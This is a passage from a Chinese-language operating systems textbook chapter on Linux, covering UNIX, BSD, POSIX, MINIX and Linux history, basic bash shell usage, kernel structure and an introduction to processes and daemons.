在AT＆T于1984年被美国政府拆分后，它获得了设立计算机子公司的法律许可，并很快就这样做了。不久，AT＆T发布了第一个商业化的UNIX产品——System III。它并没有被很好地接受，因此在一年之后就被一个改进的版本System V取代。关于System IV发生了什么是计算机科学史上最大的未解之谜之一。最初的System V很快就被System V的第2版，第3版，接着是第4版取代，每一个新版本都更加庞大和复杂。在这个过程中，UNIX系统背后的初始思想，即一个简单、精致的系统，逐渐地消失了。虽然Ritchie与Thompson的小组之后开发了UNIX的第8、第9与第10版，由于AT＆T把所有的商业力量都投入到推广System V中，它们并没有得到广泛的传播。然而，UNIX的第8、第9与第10版的部分思想被最终包含在System V中。AT＆T最后决定，它毕竟是一家电话公司而不是一家计算机公司，因此把UNIX的生意在1993年卖给了Novell。Novell随后在1995年把它又卖给了Santa Cruz Operation。那时候谁拥有UNIX的生意已经无关紧要了，因为所有主要的计算机公司都已经拥有了其许可证。
加州大学伯克利分校（University of California at Berkeley）是早期获得UNIX第6版的众多大学之一。由于获得了整个源代码，Berkeley可以对系统进行充分的修改。在ARPA（Advanced Research Project Agency，（美国国防部）高级研究计划署）的赞助下，Berkeley开发并发布了针对PDP-11的UNIX改进版本，称为1BSD（First Berkeley Software Distribution，Berkeley软件发行第1版）。这个版本之后很快有另一个版本紧随，称作2BSD，它也是为PDP-11开发的。
更重要的版本是3BSD，尤其是其后继者，为VAX开发的4BSD。虽然AT＆T发布了一个VAX上的UNIX版本称为32V，这个版本本质上是UNIX第7版，但是，相比之下，4BSD包含一大批改进。最重要的改进是应用了虚拟内存与分页，使得程序能够按照需求将其一部分调入或调出内存，从而使程序能够比物理内存更大。另一个改进是允许文件名长于14个字符。文件系统的实现方式也发生了变化，其速度得到了显著的提高。信号处理变得更为可靠。网络的引入使得其使用的网络协议TCP/IP成为UNIX世界的实际标准。因为Internet由基于UNIX的服务器统治，TCP/IP接着也成为了Internet的实际标准。
Berkeley也为UNIX添加了许多应用程序，包括一个新的编辑器（vi）、一个新的shell（csh）、Pascal与Lisp的编译器，以及很多其他程序。所有这些改进使得Sun Microsystems，DEC以及其他计算机销售商基于Berkeley UNIX开发它们自己的UNIX版本，而不是基于AT＆T的“官方”版本System V。因此Berkeley UNIX在教学、研究以及国防领域的地位得到确立。如果希望得到更多关于Berkeley UNIX的信息，请查阅参考文献（McKusick等人，1996）。
在20世纪80年代后期，两个不同且一定程度上不相兼容的UNIX版本（4.3BSD与System V第3版）得到广泛使用。另外，几乎每个销售商都会增加自己的非标准增强特性。UNIX世界的这种分裂，加上二进制程序格式没有标准的事实，使得任何软件销售商编写和打包的UNIX程序都不可能在其他UNIX系统上运行（正如MS-DOS所做的一样），从而极大地阻碍了UNIX的商业成功。各种各样标准化UNIX的尝试一开始都失败了。一个典型的例子是AT＆T发布的SVID（System V Interface Definition，System 5界面定义），它定义了所有的系统调用、文件格式等。这个标准尝试使所有System V的销售商保持一致，然而它在敌对阵营（BSD）中直接被忽略，没有任何效果。
第一次使UNIX的两种流派一致的严肃尝试来源于IEEE（它是一个得到高度尊重的中立组织）标准委员会的赞助。有上百名来自业界、学界以及政府的人员参加了此项工作。他们共同决定将这个项目命名为POSIX。前三个字母代表可移植操作系统（Portable Operating System），后缀IX用来使这个名字与UNIX的构词相似。
经过一次又一次的争论与辩驳之后，POSIX委员会制定了一个称为1003.1的标准。它规定了每一个符合标准的UNIX系统必须提供的库函数。大多数库函数会引发系统调用，但也有一些可以在系统内核之外实现。典型的库函数包括open，read与fork。POSIX的思想是这样的，一个软件销售商写了一个只调用了符合1003.1标准函数的程序，那么他就可以确信这个程序可以在任何符合标准的UNIX系统上运行。
的确大多数标准制定机构都会做出令人厌恶的妥协，在标准中包含一些制定这个标准的机构偏好的一些特性。在这点上，考虑到制定时牵涉到的大量相关者与他们各自既定的喜好，1003.1做得非常好。IEEE委员会并没有采用System V与BSD特性的并集作为标准的起始点（大部分的标准组织常这样做），而是采用了两者的交集。非常粗略地说，如果一个特性在System V与BSD中都出现了，它就被包含在标准中，否则就被排除出去。由于这种做法，1003.1与System V和BSD两者的共同祖先UNIX第7版有着很强的相似性。1003.1文档的编写方式使得操作系统的开发者与软件的开发者都能够理解，这是它在标准界中的另一个创新之处，即使这方面的改进工作已经在进行之中。
虽然1003.1标准只解决了系统调用的问题，但是一些相关文档对线程、应用程序、网络及UNIX的其他特性进行了标准化。另外，ANSI与ISO组织也对C语言进行了标准化。
所有现代的UNIX系统共有的一个特点是它们又大又复杂。在这点上，与UNIX的初衷背道而驰。即使源代码可以免费得到（在大多数情况下并不是这样），单纯一个人不再能够理解整个系统。这种情况导致本书的作者编写了一个新的类UNIX系统，它足够小，因而比较容易理解。它的所有源代码公开，可以用作教学目的。这个系统由11 800行C代码以及800行汇编代码构成。它于1987年发布，在功能上与UNIX第7版几乎相同，后者是PDP-11时代大多数计算机科学系的中流砥柱。
MINIX属于最早的一批基于微内核设计的类UNIX系统。微内核背后的思想是在内核中只提供最少的功能，从而使其可靠和高效。因此，内存管理和文件系统被作为用户进程实现。内核只负责进程间的信息传递。内核包含1600行C代码以及800行汇编代码。由于与8088体系结构相关的技术原因，I/O设备驱动（增加2900行C代码）也在内核中。文件系统（5100行C代码）与内存管理（2200行C代码）作为两个独立的用户进程运行。
由于高度模块化的结构，微内核相对于单核系统有着易于理解和维护的优点。同时，由于一个用户态进程崩溃后造成的损害要远小于一个内核组件崩溃后造成的损害，因此将功能代码从内核移到用户态后，系统会更加可靠。微内核的主要缺点是用户态与内核态的额外切换会带来较大的性能损失。然而，性能并不代表一切：所有现代的UNIX系统为获得更好的模块性在用户态运行X-windows，同时容忍其带来的性能损失（与此相反的是Windows，其中整个GUI运行在内核中）。在那个时代，其他的著名微内核设计包括Mach（Accetta等人，1986）和Chorus（Rozier等人，1988）。
在问世几个月之内，MINIX在自己的USENET（现在的Google）新闻组comp.os.minix以及超过40 000名使用者中风靡一时。很多使用者提供了命令和其他用户程序，MINIX从而变成了一个由互联网上的众多使用者完成的集体项目。它是之后出现的其他集体项目的一个原型。1997年，MINIX第2版发布，其基本系统包含了网络，并且代码量增长到了62 200行。
2004年左右，MINIX发展方向发生了巨大的变化，它聚焦到发展一个极其可靠、可依赖的系统，能够自动修复自身错误并且自恢复，即使在可重复软件缺陷被触发的情况下也能够继续正常工作。因此，第1版中的模块化思想在MINIX 3.0中得到极大扩展，几乎所有的设备驱动被移到了用户空间，每一个驱动作为独立的进程运行。整个核心的大小突然降到不到4000行代码，因此一个单独的程序员可以轻易地理解。为了增强容错能力，系统的内部机制在很多地方发生了改变。
另外，超过500种流行的UNIX程序被移植到MINIX 3.0，包括X Window系统（有时候只用X代表）、各种各样的编译器（包括gcc）、文本处理软件、网络软件、浏览器以及其他很多程序。与以前的版本在本质上主要是教学用途不同，从MINIX 3.0开始拥有高可用性，并聚焦在高可靠性上。MINIX的最终目标是：取消复位键。
本书的第三版中介绍了这个新系统，在附录中还有源代码和详细介绍（Tanenbaum和Woodhull，2006）。MINIX继续发展，并有着一个活跃的用户群体。如果需要更多细节或免费获取最新版本，请访问www.minix3.org。
在互联网上关于MINIX的讨论和发展的早期，很多人请求（在很多情况下是要求）添加更多更好的特性。对于这些请求作者通常说“不”（为使系统足够小，使学生在一个学期的大学课程中就能完全理解）。持续的拒绝使很多使用者感到厌倦。但当时还没有FreeBSD，因此这些用户没有其他选择。这样的情况过了很多年，直到一位芬兰学生Linus Torvalds决定编写另外一个类UNIX系统，称为Linux。Linux将会是一个完备的系统产品，拥有许多MINIX一开始缺乏的特性。Linux的第1个版本0.01在1991年发布。它在一台运行MINIX的机器上交叉开发，从MINIX借用了从源码树结构到文件系统设计的很多思想。然而它是一种整体式设计，将整个操作系统包含在内核之中，而非MINIX那样的微内核设计。Linux0.01版本共有9300行C代码和950行汇编代码，大致上与MINIX版本大小接近，功能也差不多。事实上，Linux就是Torvalds对MINIX的一次重写，当时，他也只能得到MINIX系统的源代码了。
当加入了虚拟内存、一个更加复杂的文件系统以及更多的特征之后，Linux的大小急速增长，并且演化成了一个完整的UNIX克隆产品。虽然，在刚开始，Linux只能运行在386机器上（甚至把386汇编代码嵌入到了C程序中间），但是很快就被移植到了其他平台上，并且现在像UNIX一样，能够运行在各种类型的机器上。尽管如此，Linux和UNIX之间还是有一个很明显的不同：Linux利用了gcc编译器的很多特性，需要做大量的工作，才能使Linux能够被ANSI标准C编译器编译。
接下来的一个主要的Linux发行版是1994年发布的版本1.0。它大概有165 000行代码，并且包含了一个新的文件系统、内存映射文件和可以与BSD相容的带有套接字和TCP/IP的网络。它同时也包含了一些新的驱动程序。在接下来的两年中，发布了几个轻微修订版本。
到这个时候，Linux已经和UNIX充分兼容，大量的UNIX软件都被移植到了Linux上，使得它比起以前具有了更强的可用性。另外，大量的用户被Linux所吸引，并且在Torvalds的整体管理下开始用多种方法对Linux的代码进行研究和扩展。
之后一个主要的发行版，是1996年发布的2.0版本。它由大约470 000行C代码和8000行汇编代码组成。它包含了对64位体系结构的支持、对称多道程序设计、新的网络协议和许多的其他特性。一个可扩展设备驱动程序集占用了总代码量的很大一部分。随后，很快发行了另外的版本。
Linux内核的版本号由四个数字组成，A.B.C.D，如2.6.9.11。第一个数字表示内核的版本。第二个数字表示第几个主要修订版。在2.6版本内核之前，偶数版本号相当于内核的稳定发行版，而奇数版本号则相当于不稳定的修订版，即开发版。在2.6版本内核中，不再是这种情况了。第三个数字表示次要修订版，比如支持了新的驱动程序等。第四个数字则与小的错误修正或安全补丁相关。
大量的标准UNIX软件移植到了Linux上，包括X窗口系统和大量的网络软件。也有人为Linux开发了两个不同的GUI（GNOME和KDE）。简而言之，Linux已经成长为一个完整的UNIX翻版，包括了UNIX爱好者想要的所有特性。
Linux的一个独特的特征是它的商业模式：它是自由软件。它可以从互联网上的很多站点中下载到，比如：www.kernel.org。Linux带有一个由自由软件基金会（FSF）的创建者Richard Stallman设计的许可。尽管Linux是自由的，但是它的这个许可GPL（GNU公共许可），比微软Windows的许可更长，并且规定了用户能够使用代码做什么以及不能做什么。用户可以自由地使用、复制、修改以及传播源代码和二进制代码。主要的限制是以Linux内核为基础开发的产品不能只以二进制形式（可执行文件）出售或分发；其源代码必须要么与产品一起发送，要么可以随意索取。
虽然Torvalds仍然相当紧密地控制着Linux的内核，但是Linux的大量用户级程序是由其他程序员编写的。他们中的很多人一开始是从MINIX、BSD或GNU在线社区转移过来的。然而，随着Linux的发展，越来越少的Linux社区成员想要破译源代码（有上百本介绍怎样安装和使用Linux的书，然而只有少数书介绍源代码以及其工作机理）。同时，很多Linux用户放弃了互联网上免费分发的版本，转而购买众多竞争商业公司提供的CD-ROM版本。在一个流行站点www.distrowatch.org上列出了现在最流行的100种Linux版本。随着越来越多的软件公司开始销售自制版本的Linux，而且越来越多的硬件公司承诺在他们出售的计算机上预装Linux，自由软件与商业软件之间的界限变得愈发模糊了。
作为Linux故事的一个有趣的脚注，我们注意到在Linux变得越来越流行时，它从一个意想不到的源头（AT＆T）获得了很大的推动。1992年，由于缺乏资金，Berkeley决定在推出BSD的最终版本4.4BSD后停止开发（4.4BSD后来成为FreeBSD的基础）。由于这个版本几乎不包含AT＆T的代码，Berkeley决定将这个软件的开源许可证（不是GPL）发布，任何人可以对它做任何想做的事情，只要不对加州大学提出诉讼。AT＆T负责UNIX的子公司做出了迅速的反应——正如你猜的那样——它提出了对加州大学的诉讼。同时，它也控告了BSDI，一家由BSD开发者创立、包装系统并出售服务的公司（正像Red Hat以及其他公司现在为Linux所做的那样）。由于4.4BSD中事实上不含有AT＆T的代码，起诉是依据版权和商标侵犯，包括BSDI的1-800-ITS-UNIX那样的电话号码。虽然这次诉讼最终在庭外和解，它把FreeBSD隔离在市场之外，却给了Linux足够的时间发展壮大。如果这次诉讼没有发生，从1993年起两个免费、开源的UNIX系统之间就会进行激烈的竞争：由处于统治地位的、成熟稳定且自1977年起就在学界得到巨大支持的系统BSD应对富有活力的年轻挑战者、只有两年历史却在个人用户中支持率稳步增长的Linux。谁知道这场免费UNICES的战争会变成何种局面？
为了那些对Linux不熟悉的用户的利益，在这一节我们将对Linux本身以及如何使用Linux进行简单的介绍。几乎本节介绍的所有内容同样适用于所有与UNIX相差不多的UNIX衍生系统。虽然Linux有多个图形界面，但在这里我们关注的是在X系统的shell窗口中工作的程序员眼中的Linux界面。在随后的几节中，我们将关注系统调用以及它们是如何在内核中工作的。
一直以来，UNIX都被设计成一种能够同时处理多进程和多用户的交互式系统。它是由程序员设计的，也是给程序员使用的，而使用它的用户大多都比较有经验并且经常参与（通常较为复杂的）软件开发项目。在很多情况下，通常是大量的程序员通过积极的合作来开发一个单一的系统，因此UNIX有广泛的工具来支持在可控制的条件下的多人合作和信息共享。一组有经验的程序员共同开发一个复杂软件的模式显然和一个初学者独立地使用一个文档编辑器的个人计算机模式有显著区别，而这种区别在UNIX系统中自始至终都有所反映。Linux系统自然而然地继承了这些设计目标，尽管它的第一个版本是面向个人电脑的。
好的程序员追求什么样的系统？首先，大多数程序员喜欢让系统尽量简单，优雅，并且具有一致性。比如，从最底层的角度来讲，一个文件应该只是一个字节集合。为了实现顺序存取、随机存取、按键存取、远程存取等而设计不同类型的文件（像大型机一样）只会碍事。类似地，如果命令
ls A*
的意思是列举出所有以“A”打头的文件，那么命令
rm A*
的意思就应该是删除所有以“A”打头的文件而不是删除文件名是“A*”的那个文件。这个特性有时被称为最小惊讶原理。
有经验的程序员通常还希望系统具有较强的功能性和灵活性。这意味着一个系统应该具有较小的一组基本元素，而这些元素可有多种多样的组合方式来满足各种应用需要。设计Linux的一个基本指导方针就是每个程序应该只做一件事并且把它做好。因此，编译器不会产生列表，因为有其他的程序可以更好地实现这个功能。
最后，大多数程序员非常反感没用的冗余。如果cp可以胜任，那么为什么还需要copy？为了从文件f中提取所有包含字符串“ard”的行，Linux程序员输入
grep ard f
另外一种方法是让程序员先选择grep程序（不带参数），然后让grep程序自己宣布说“你好，我是grep，我在文件中寻找模式。请输入你要寻找的模式。”在输入一个模式之后，grep程序要求输入一个文件名。然后它再提问是否还有别的文件。最后，它总结需要执行的任务并且询问是否正确。尽管这样的用户界面可能适合初学者，但它会把有经验的程序员逼疯。他们想要的是一个佣人，不是一个保姆。
一个Linux系统可被看成一座金字塔，如图10-1所示。最底层的是硬件，包括CPU、内存、磁盘、显示器、键盘以及其他设备。运行在硬件之上的是操作系统。它的作用是控制硬件并且为其他程序提供系统调用接口。这些系统调用允许用户程序创立并管理进程、文件以及其他资源。
程序通过把参数放入寄存器（有时是栈）来调用系统调用，并发出陷阱指令从用户模式切换到内核模式。由于不能用C语言写一条陷阱指令，因此系统提供了一个库，每个函数对应一个系统调用。这些函数是用汇编语言写的，不过可以从C中调用。每一个函数首先将参数放到合适的地方，然后执行陷阱命令。因此，为了执行read系统调用，一个C程序需要调用read库函数。值得一提的是，由POSIX指定的是库接口，而不是系统调用接口。换句话说，POSIX规定哪些库函数是一个符合标准规范的系统必须提供的，它们的参数是什么，它们的功能是什么，以及它们返回什么样的结果。POSIX根本没有提到真正的系统调用。
除了操作系统和系统调用库，所有版本的Linux必须提供大量的标准程序，其中一些是由POSIX 1003.2标准指定的，其他的根据不同版本的Linux而有所不同。它们包括命令处理器（shell）、编译器、编辑器、文本处理程序以及文件操作工具。用户使用键盘调用的是上述这些程序。因此，我们可以说Linux具有三种不同的接口：真正的系统调用接口、库函数接口和由标准应用程序构成的接口。
大多数的Linux个人计算机发行版都把上述的面向键盘的用户界面替换为面向鼠标的图形用户界面，而根本没有修改操作系统本身。正是这种灵活性让Linux如此流行并且在经历了如此多的技术革新后存活下来。
Linux的GUI和最初在20世纪70年代为UNIX系统开发的、后来由于Macintosh和Windows变得流行的GUI非常相似。这种GUI创建一个桌面环境，包括窗口、图标、文件夹、工具栏和拖拽功能。一个完整的桌面环境包含一个窗口管理器（负责控制窗口的摆放和外观），以及各种应用程序，并且提供一个一致的图形界面。比较流行的Linux桌面环境包括GNOME（GNU网络对象模型环境）和KDE（K桌面环境）。
Linux上的GUI由X窗口系统（常常称为X11或者X）所支持，它负责定义用于UNIX和类UNIX系统中基于位图显示的操作窗口的通信和显示协议。其主要组成部分X服务器，控制键盘、鼠标、显示器等设备，并负责输入重定向或者从客户程序接受输出。实际的GUI环境通常构建在一个包含与X服务器进行交互功能的低层库xlib上。图形界面将X11的基本功能进行拓展，丰富了窗口的显示，提供按钮、菜单、图标以及其他选项。X服务器可以通过命令行手动启动，不过通常在启动过程中由一个负责显示用户登录图形界面的显示管理器启动。
当在Linux上使用图形界面时，用户可以通过鼠标点击运行程序或者打开文件，通过拖拉将文件从一个地方复制到另一个地方等。另外，用户也可以启动一个终端模拟程序xterm，它为用户提供一个到操作系统的基本命令行界面。下面一节有关于它的详细描述。
尽管Linux系统具有图形用户界面，然而大多数程序员和高级用户都更愿意使用一个命令行界面，称作shell。通常这些用户在图形用户界面中启动一个或更多的shell窗口，然后就在这些shell窗口中工作。shell命令行界面使用起来更快速，功能更强大，扩展性更好，并且让用户不会遭受由于必须一直使用鼠标而引起的肢体重复性劳损（RSI）。接下来我们简要介绍一下bash shell（bash）。它是基于UNIX最原始的shell（Bourne shell）的，而且实际上它的名字也是Bourne Again shell的首字母缩写。经常使用的还有很多其他的shell（ksh，csh等），但是bash是大多数Linux系统的默认shell。
当shell被启动时，它初始化自己，然后在屏幕上输出一个提示符（prompt），通常是一个百分号或者美元符号，并等待用户输入命令行。
等用户输入一个命令行后，shell提取其中的第一个字，假定这个字是将要运行程序的程序名，搜索这个程序，如果找到了这个程序就运行它。然后，shell会将自己挂起直到该程序运行完毕，之后再尝试读入下一条命令。重要的是，shell也只是一个普通用户程序。它仅仅需要从键盘读取数据、向显示器输出数据和运行其他程序的能力。
命令中还可以包含参数，它们作为字符串传给所调用的程序。比如，下面的命令行
cp src dest
调用cp程序并包含两个参数，src和dest。这个程序将第一个参数解释为一个现存的文件名，然后创建该文件的一个副本，其名称为dest。
并不是所有的参数都是文件名。在命令行
head -20 file
中，第一个参数-20通知head程序输出file中的前20行，而不是默认的10行。负责控制一个命令的操作或者指定一个可选数值的参数称为标志（flag），习惯上由一个破折号标记。为了避免歧义，这个破折号是必要的，比如
head 20 file
是一个完全合法的命令，它告诉head程序输出文件名为20的文件的前10行，然后输出文件名为file的文件的前10行。大多数Linux命令接受多个标志和多个参数。
为了更容易地指定多个文件名，shell支持魔法字符，有时称为通配符。比如，一个星号可以匹配所有可能的字符串，因此
ls *.c
告诉ls列举出所有文件名以.c结束的文件。如果同时存在文件x.c，y.c，z.c，那么上述命令等价于下面的命令
ls x.c y.c z.c
另一个通配符是问号，负责匹配任意一个字符。一组在中括号中的字符可以表示其中的任意一个，因此
ls[ape]*
列举出所有以“a”，“p”或者“e”开头的文件。
像shell这样的程序不一定非要通过终端（键盘和显示器）进行输入输出。当它（或者任何其他程序）启动时，它自动获得了对标准输入（负责正常输入），标准输出（负责正常输出）和标准错误（负责输出错误信息）文件进行访问的能力。正常情况下，上述三个文件默认地都指向终端，因此标准的输出是从键盘输入的，而标准输出或者标准错误是输出到显示器的。许多Linux程序默认从标准输入进行输入并从标准输出进行输出。比如
sort
调用sort程序，其从终端读取数据（直到用户输入Ctrl-D表示文件结束），根据字母顺序将它们排序，然后将结果输出到屏幕上。
也可以对标准输入和输出进行重定位，因为这种情况通常会很有用。对标准输入进行重定位的语法使用一个小于号（＜）加上紧接的一个输入文件名。类似的，标准输出可以通过一个大于号（＞）进行重定位。允许在一个命令中对两者同时进行重定位。比如，下面的命令：
sort＜in＞out
使得sort从文件in中得到输入，并把结果输出到文件out中。由于标准错误没有被重定位，因此所有的错误信息会输出到屏幕中。一个从标准输入中读取数据，对数据进行某种处理，然后输出到标准输出的程序称为过滤器（filter）。
考虑下面一条包括三条独立命令的命令行：
sort＜in＞temp;head-30＜temp;rm temp
首先它运行sort，从in得到输入然后将结果输出到temp中。完成后，shell运行head，令其将temp的前30行内容输出到标准输出中，默认为终端。最后，临时文件temp被删除。
常常有把命令行中第一个程序的输出作为下一个程序的输入这种情况。在上面的例子中，我们使用temp文件来保存这个输出。然而，Linux提供了一种更简单的方法来达到相同的结果。在命令行
sort＜in|head-30
中，竖杠，也常被称为管道符（pipe symbol），告诉程序从sort中得到输出并且将其作为输入传给head，由此消除了创建、使用和删除一个临时文件的过程。由管道符连接起来的命令，称为一个管线（pipeline），可以包含任意多的命令。一个由四个部分组成的管线如下所示：
grep ter*.t|sort|head-20|tail-5＞foo
这里所有以.t结尾的文件中包含“ter”的行被写到标准输出中，然后被排序。这些内容的前20行被head选择出来并传给tail，它又将最后5行（也即排完序的列表中的第16到20行）传给foo。这个例子显示了Linux是如何提供了一组各负责一项任务的基本单元（一些过滤器）和一个几乎可以用无穷的方式把它们组合起来的机制。
Linux是一种通用多道程序设计系统。一个用户可以同时运行多个程序，每一个作为一个独立的进程存在。在shell中，后台运行一个程序的语法是在原本命令后加一个“＆”。因此
wc-l＜a＞b＆
运行字数统计程序wc，来统计输入文件a中的行数（-l标志），并将结果输出到b中，不过整个过程都在后台运行。命令一被输入，shell输出提示符就可以接收并处理下一条命令。管线也可以在后台中运行，比如下面的指令：
sort＜x|head＆
多个管线也可以同时在后台中运行。
Linux的命令行（shell）用户界面包含大量的标准应用程序。这些程序可以大致分成以下6类：
1)文件和目录操作命令。
2)过滤器。
3)程序设计工具，如编辑器和编译器。
4)文档处理。
5)系统管理。
6)其他。
POSIX 1003.2标准规定了100种左右关于上述程序的语法和语义，主要是前三类中的程序。让这些程序具有统一的标准主要是为了实现让任何人写的shell脚本可以在任何Linux系统上运行。
除了这些标准应用程序外，当然还有许多其他应用程序，比如Web浏览器，图片浏览器等。
下面我们看一看一些程序的例子，首先从文件和目录操作开始。
cp a b
将文件a移动到b，而不改变原文件。相比之下
mv a b
将文件a移动到b但是删除原文件。从效果上来看，它是文件移动而不是通常意义上的复制。cat命令可以把多个文件的内容连接起来，它读入每一个输入文件然后把它们按顺序复制到标准输出中。可以通过rm命令来删除文件。命令chmod可以让属主通过修改文件的权限位来改变其访问权限。使用mkdir和rmdir命令可以分别实现目录的创建和删除。为了列出一个目录下的文件，可以使用ls命令。它包含大量的标志来控制要显示文件的哪些特征（如大小、用户、群、创建日期）、决定文件的显示顺序（如字母序、修改日期、逆序）、指定文件输出格式等。
我们已经见到了很多过滤器：grep从标准输入或者一个或多个输入文件中提取包含特定模式的行；sort将输入进行排序并输出到标准输出；head提取输入的前几行；tail提取输入的后几行。其他的由1003.2定义的过滤器有：cut和paste，它们实现一段文档的剪切和粘贴；od将输入（通常是二进制）转换成ASCII文档，包括八进制，十进制或者十六进制；tr实现字符大小写转换（如小写换大写），pr为打印机格式化输出，包括一些格式选项，如运行头，页码等。
编译器和程序设计工具包括gcc（它调用C语言编译器）以及ar（它将库函数收集到存档文件中）。
另外一个重要的工具是make，它负责维护大的程序，这些程序的源码通常分布在多个文件中。通常，其中一些文件是头文件（header file），其中包括类型、变量、宏和其他声明。源文件通常使用include将头文件包含进来。这样，两个或更多的源文件可以共享同样的声明。然而，如果头文件被修改，就需要找到所有依赖于这个头文件的源文件并对它们重新进行编译。make的作用是跟踪哪些文件依赖于哪些头文件等，然后安排所有需要进行的编译自动进行。几乎所有的Linux程序，除了最小的那些，都是依靠make进行编译的。
一部分POSIX标准应用程序列在图10-2中，包括每个程序的简要说明。所有Linux系统中都有这些程序以及许多其他标准的应用程序。
在图10-1中我们看到了Linux系统的总体结构。在进一步研究内核的组成部分，如进程调度和文件系统之前，我们先从整体的角度看一下Linux的内核。
内核坐落在硬件之上，负责实现与I/O设备和存储管理单元的交互，并控制CPU对前述设备的访问。如图10-3所示，在最底层，内核包含中断处理程序，它们是与设备交互的主要方式，以及底层的分派机制。这种分派在中断时发生。底层的代码中止正在运行的进程，将其状态存储在内核进程结构中，然后启动相应的驱动程序。进程分派也在内核完成某些操作，并且需要再次启动一个用户进程时发生。进程分派的代码是汇编代码，并且和进程调度代码有很大不同。
接下来，我们将内核子系统分为三个主要部件。在图10-3中I/O部件包含所有负责与设备交互以及实现联网和存储的I/O功能的内核部件。在最高层，这些I/O功能全部整合在一个虚拟文件系统层中。也就是说，从顶层来看，对一个文件进行读操作，不论是在内存还是磁盘中，都和从终端输入中读取一个字符是一样的。从底层来看，所有的I/O操作都要通过某一个设备驱动器。所有的Linux驱动程序都可以被分类为字符驱动程序或块驱动程序，两者之间的主要区别是块设备允许查找和随机访问而字符设备不允许。从技术上讲，网络设备实际上是字符设备，不过它们的处理和其他字符设备不太一样，因此为了清晰起见将它们单独分类，如图10-3所示。
在设备驱动程序之上，每个设备类型的内核代码都不一样。字符设备有两种不同的使用方式。有些程序，如可视编辑器vi，emacs等，需要每一个键盘输入。原始的终端（tty）I/O可以实现这种功能。其他程序，比如shell等，是面向行的，因此允许用户在输入回车并将字符串发送给程序之前整行地进行编辑。在这种情况下，由终端流出的字符流需要通过一个所谓的行规则，其中的内容被相应地格式化。
网络软件通常是模块化的，由不同的设备和协议来支持。网络设备的上一个层次负责一种常规程序，确保每一个包被送到正确的设备或协议处理器。大多数Linux系统在内核中包含一个完整的硬件路由器的功能，尽管其性能比硬件路由器的性能差一些。在路由器代码之上的是实际的协议栈，它总是包含IP和TCP协议，也包含一些其他协议。在整个网络之上的是socket接口，它允许程序来为特定的网络和协议创建socket，并为每一个socket返回一个待用的文件描述符。
在磁盘驱动器之上是I/O调度器，它负责排序和分配磁盘读写操作，以尽可能减少磁头的无用移动或者满足一些其他的系统原则为方法。
块设备列的最顶层是文件系统。Linux允许，也确实有多个文件系统同时存在。为了向文件系统的实现隐藏不同硬件设备体系之间的区别，一个通用的块设备层提供了一个可以被所有文件系统使用的抽象。
图10-3的右边是Linux内核的另外两个重要组成部件，它们负责存储和进程管理任务。存储管理任务包括维护虚拟内存到物理内存的映射，维护最近被访问页面的缓存以及实现一个好的页面置换算法，并且根据需要把需要的数据和代码页读入内存中。
进程管理部件的最主要任务是进程的创建和终止。它还包括一个进程调度器，负责选择下一步运行哪个进程或线程。我们将在下一节看到，Linux把进程和线程简单地看作可运行的实体，并使用统一的调度策略对它们进行调度。最后，信号处理的代码也属于进程管理部件。
尽管这三个部件在图中被分开，实际上它们高度相互依赖。文件系统一般通过块设备进行文件访问。然而，为了隐藏磁盘读取的严重延迟，文件被复制到内存中的页缓存中。有些文件甚至可能是动态创建的并且只在内存中存在，比如提供运行时资源使用情况的文件。另外，当需要清空一些页时，虚拟存储系统可能依靠一个磁盘分区或者文件内的交换区来备份内存的一部分，因此依赖于I/O部件。当然，还存在着很多其他的组件之间的相互依赖。
除了内核内的静态部件外，Linux支持动态可装载模块。这些模块可以用来补充或者替换缺省的设备驱动程序、文件系统、网络或者其他内核代码。在图10-3中没有显示这些模块。
最后，处在最顶层的是到内核的系统调用接口。所有系统调用都来自这里，其导致一个陷阱，并将系统从用户态转换到受保护的内核态，继而将控制权交给上述的内核部件之一。
前面的几个小节是从键盘的角度来看待Linux，也就是说以用户在xterm窗口中所见的内容来看待Linux。我们给出了常用的shell命令和标准应用程序作为例子。最后，以一个对Linux系统结构的简要概括作为结尾。现在，让我们深入到系统内核，更仔细地研究Linux系统所支持的基本概念，即进程、内存、文件系统和输入/输出。这些概念非常重要，因为系统调用（到操作系统的接口）将对这些概念进行操作。举个例子来说，Linux系统中存在着用来创建进程和线程、分配内存、打开文件以及进行输入/输出操作的系统调用。
遗憾的是，由于Linux系统的版本非常之多，各个版本之间均有不同。在这一章里，我们将摒弃着眼于某一个Linux版本的方法，转而强调各个版本的共通之处。因此，在某些小节中（特别是涉及实现方法的小节），这里讨论的内容不一定同样适用于每个Linux版本。
Linux系统中主要的活动实体就是进程。Linux进程与我们在第2章所学的经典顺序进程极为相似。每个进程执行一段独立的程序并且在进程初始化的时候拥有一个独立的控制线程。换句话说，每一个进程都拥有一个独立的程序计数器，用这个程序计数器可以追踪下一条将要被执行的指令。一旦进程开始运行，Linux系统将允许它创建额外的线程。
由于Linux是一个多道程序设计系统，因此系统中可能会有多个彼此之间相互独立的进程在同时运行。而且，每一个用户可以同时开启多个进程。因此，在一个庞大的系统里，可能有成百个甚至上千个进程在同时运行。事实上，在大多数单用户的工作站里，即使用户已经退出登录，仍然会有很多后台进程，即守护进程（daemon），在运行。在系统启动的时候，这些守护进程就已经被shell脚本开启（在英语中，“daemon”是“demon”的另一种拼写，而demon是指一个恶魔）。
计划任务（cron daemon）是一个典型的守护进程。它每分钟运行一次来检查是否有工作需要它完成。如果有工作要做，它就会将之完成，然后进入休眠状态，直到下一次检查时刻来到。
在Linux系统中，你可以把在未来几分钟、几个小时、几天甚至几个月会发生的事件列成时间表，所以这个守护进程是非常必要的。举个例子来说，假定一个用户在下周二的三点钟要去看牙医，那么他就可以在计划任务的数据库里添加一条记录，让计划任务来提醒他，比如说，在两点半的时候。接下来，当相应的时间到来的时候，计划任务意识到有工作需要它来完成，就会运行起来并且开启一个新的进程来执行提醒程序。
计划任务也可以执行一些周期性的活动，比如说在每天凌晨四点的时候进行磁盘备份，或者是提醒健忘的用户每年10月31号的时候需要为万圣节储备一些好吃的糖果。当然，系统中还存在其他的守护进程，他们接收或发送电子邮件、管理打印队列、检测内存中是否有足够的空闲页等。在Linux系统中，守护进程可以直接实现，因为它不过是与其他进程无关的另一个独立的进程而已。
在Linux系统中，进程通过非常简单的方式创建。系统调用fork将会创建一个与原始进程完全相同的进程副本。调用fork函数的进程称为父进程，新的进程称为子进程。父进程和子进程都拥有自己的私有内存映像。如果在调用fork函数之后，父进程修改了属于它的一些变量，这些变化对于子进程来说是不可见的，反之亦然。
